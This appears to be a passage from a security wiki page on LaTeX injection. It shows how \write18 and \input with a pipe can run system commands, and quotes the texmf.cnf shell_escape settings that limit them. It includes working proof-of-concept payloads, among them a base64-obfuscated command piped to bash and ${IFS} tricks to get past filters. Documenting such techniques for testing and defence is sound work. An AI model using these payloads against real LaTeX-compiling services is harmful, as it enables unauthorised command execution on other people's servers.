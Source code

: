 ### Command Execution (RCE)

LaTeX is so powerful that it can execute system commands from its syntax, in multiple different ways. One is to use the [`\write18`](https://latexref.xyz/\_005cwrite18.html) command that accepts the command you wish to execute as the argument:

```latex
\documentclass{article}
\begin{document}
\write18{id > /tmp/pwned}
A     % filler because an empty document doesn't execute
\end{document}
```

Another less common way is using [`\input`](https://latexref.xyz/\_005cinput.html) and the `|` character:

```latex
\documentclass{article}
\begin{document}
% short:
\input|id|base64
% alternative:
\input|uname${IFS}-a|base64
\input|echo${IFS}aWQgPiAvdG1wL3B3bmVk|base64${IFS}-d|bash
% simple & flexible:
\input{|"uname -a | base64"}
\end{document}
```

As explained in [#compiling](latex.md#compiling "mention"), the list of allowed commands is very restricted by default. The examples above would only execute if `--shell-escape` was turned on, allowing arbitrary commands.&#x20;

The default allowed commands are stored in a big configuration file at `/usr/share/texmf/web2c/texmf.cnf` where there are two interesting settings:

{% code title="texmf.cnf" %}
```latex
% Enable system commands via \write18{...}.  When enabled fully (set to
% t), obviously insecure.  When enabled partially (set to p), only the
% commands listed in shell_escape_commands are allowed.  Although this
% is not fully secure either, it is much better, and so useful that we
% enable it for everything but bare tex.
shell_escape = p

% No spaces in this command list.
% 
% The programs listed here are as safe as any we know: they either do
% not write any output files, respect openout_any, or have hard-coded
% restrictions similar to or higher than openout_any=p.  They also have
% no features to invoke arbitrary other programs, and no known
% exploitable bugs.  All to the best of our knowledge.  They also have
% practical use for being called from TeX.
% 
shell_escape_commands = \
bibtex,bibtex8,\
extractbb,\
gregorio,\
kpsewhich,\
makeindex,\
repstopdf,\
r-mpost,\
texosquery-jre8,\
```
{% endcode %}
